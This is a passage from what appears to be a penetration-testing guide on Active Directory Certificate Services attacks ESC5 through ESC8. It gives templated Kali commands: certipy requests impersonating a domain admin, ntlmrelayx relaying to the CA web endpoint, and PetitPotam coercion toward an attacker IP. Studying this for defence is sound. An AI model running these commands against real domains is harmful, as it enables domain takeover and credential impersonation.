 ```javascript
root@kali:~# certipy req '<domain_fqdn>/<domain_user>:<domain_user_password>@<ca_dns_hostname>' -ca '<ca>' -template '<vulnerable_template>' -alt '<domain_admin>'
```

**3) Restore the old configuration**

```javascript
root@kali:~# certipy template '<domain_fqdn>/<domain_user>:<domain_user_password>@<ca_dns_hostname>' -hashes <hash> -template '<vulnerable_template>' -configuration <vulnerable_template>.json
```

## **Vulnerable PKI Object Access Control – ESC5**

Beyond certificate templates, other objects within AD CS, such as the CA server’s AD computer object, RPC/DCOM servers, and various AD containers, can impact the security of the entire AD CS system. If these objects have insecure access control settings, they can be exploited by attackers to compromise the PKI infrastructure and escalate their privileges within the domain.

## **The Impact of EDITF\_ATTRIBUTESUBJECTALTNAME2 – ESC6**

The EDITF\_ATTRIBUTESUBJECTALTNAME2 flag allows the inclusion of user-defined values in the Subject Alternative Name (SAN) field of a certificate, even when the subject is built from Active Directory. This flag, when enabled on a CA, can enable attackers to abuse certificate templates that allow domain authentication. By specifying arbitrary SANs, attackers can authenticate as any user, including domain administrators, posing a significant security risk.

## **Flaws in Certificate Authority Access Control – ESC7**

Certificate Authorities (CAs) have permissions that secure various actions within AD CS. The ManageCA permission grants administrative privileges, allowing modifications to persistent configuration data, including the ability to enable the EDITF\_ATTRIBUTESUBJECTALTNAME2 flag. The ManageCertificates permission, on the other hand, enables the approval of pending certificate requests, potentially bypassing the manager approval requirement.

## **NTLM Relay to Active Directory Certificate Services HTTP Endpoints: An Escalation Path – ESC8**

AD CS supports several HTTP-based enrollment methods through additional server roles. However, these endpoints are vulnerable to NTLM relay attacks, allowing attackers to impersonate authenticated users and request certificates based on vulnerable certificate templates. This attack vector can result in domain compromise, especially when combined with misconfigured templates that allow domain computer enrollment and client authentication.

**1) NTLM Relay Setup**

```javascript
root@kali:~# impacket-ntlmrelayx -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs --template <vulnerable_template>
```

**2) Coerce the authentication via MS-ESFRPC EfsRpcOpenFileRaw function with petitpotam**

```javascript
root@kali:~# python3 petitpotam.py -d '<domain_fqdn>' -u '<domain_user>' -p '<domain_user_password>' <attacker_ip> <target_ip>
```
